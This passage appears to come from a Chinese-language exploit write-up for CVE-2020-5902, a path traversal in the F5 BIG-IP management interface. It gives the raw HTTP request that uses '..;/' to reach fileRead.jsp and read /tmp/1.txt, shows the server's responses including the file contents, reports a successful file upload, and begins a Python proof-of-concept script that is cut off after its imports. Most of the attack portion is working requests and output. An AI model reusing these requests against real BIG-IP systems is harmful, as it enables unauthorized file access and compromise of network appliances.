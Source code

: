     HTTP/1.1 200 OK
    Date: Mon, 06 Jul 2020 02:05:29 GMT
    X-Frame-Options: SAMEORIGIN
    Strict-Transport-Security: max-age=16070400; includeSubDomains
    Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly
    Content-Type: text/html;charset=ISO-8859-1
    X-Content-Type-Options: nosniff
    X-XSS-Protection: 1; mode=block
    Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
    Vary: Accept-Encoding
    Content-Length: 4
    Connection: close

#### File Read /tmp/1.txt

5.png

    GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/tmp/1.txt HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    HTTP/1.1 200 OK
    Date: Mon, 06 Jul 2020 02:06:07 GMT
    X-Frame-Options: SAMEORIGIN
    Strict-Transport-Security: max-age=16070400; includeSubDomains
    Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly
    Content-Type: text/html;charset=ISO-8859-1
    X-Content-Type-Options: nosniff
    X-XSS-Protection: 1; mode=block
    Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
    Vary: Accept-Encoding
    Content-Length: 32
    Connection: close





    {"output":"CVE-2020-5902\n"}

#### upload /tmp/1.txt Successful ！

### poc

6.png

    #coding:utf-8
    import requests
    import json
    import requests.packages.urllib3
    requests.packages.urllib3.disable_warnings()
    import uuid
    import sys
